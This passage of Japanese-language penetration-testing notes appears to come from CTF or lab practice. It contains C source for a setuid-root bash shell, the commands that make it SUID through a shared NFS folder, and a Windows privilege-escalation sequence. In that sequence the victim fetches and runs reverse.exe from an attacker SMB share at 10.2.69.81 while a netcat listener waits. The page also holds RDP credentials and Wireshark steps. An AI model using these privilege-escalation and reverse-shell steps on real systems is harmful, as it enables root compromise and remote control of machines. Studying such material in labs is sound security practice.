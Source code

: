 ### cファイル作成
    ここから
    #include <stdio.h>
    #include <stdlib.h>

    int main()
    {   
        setgid(0);
        setuid(0);
        system("/bin/bash");
        return 0;
    }
    ここまで

    gcc main.c -o pwned -w

### ファイル転送
    cp pwned /tmp/sharedfolder
    chown root:root /tmp/sharedfolder/pwned
    chmod +s /tmp/sharedfolder/pwned

### ターゲット側の作業
    cd /home/ubuntu/sharedfolder
    ./pwned

## Windows PrivEsc
### smbserverを使ったファイル転送
    python3 /usr/share/doc/python3-impacket/examples/smbserver.py tools .  #attacker
    nc -vlnp 4444  #attacker
    copy \\10.2.69.81\tools\reverse.exe C:\PrivEsc\reverse.exe  #victim
    C:\PrivEsc\reverse.exe  #victim

## base64 decode
    cat encoded.txt | base64 -d > new.txt

## xfreerdp
    xfreerdp /u:admin /p:letmein /v:10.10.104.140

## Wireshark
### Analyze -> Follow -> TCP StreamでFilter
### Edit -> Find Next -> Packetlist -> ドロップダウンでPacketbytes  && Display filter -> ドロップダウンでString
### file -> Export Objects -> HTTP -> christmaslist.zip

# 行指定でファイルを開く
    sed -n 52p nice_list.txt
